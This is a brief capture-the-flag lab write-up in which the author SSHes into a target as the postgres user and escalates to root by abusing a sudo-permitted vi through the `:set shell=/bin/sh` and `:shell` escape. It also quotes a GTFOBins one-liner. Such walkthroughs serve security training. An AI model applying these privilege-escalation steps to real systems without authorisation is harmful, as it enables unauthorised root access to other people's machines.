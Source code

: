 Connect throught ssh with postgres user
```bash
$ ssh postgres@10.129.181.9
```

Enumerate programs that can be executed with sudo
```bash
$ sudo -l
```

Go to [gtfobins](https://gtfobins.github.io/gtfobins/vi/#sudo) to search if we can abuse vi.
```ad-info
If the binary is allowed to run as superuser by sudo, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.  

sudo vi -c ':!/bin/sh' /dev/null
```
![[Pasted image 20220612124132.png]]
But this DOES NOT work so lets execute the other command that can be run using sudo
```bash
sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf
```

1. Insert the comand `:set shell=/bin/sh`
2. Execute `:shell` 

Now we are root. The root flag is in /root.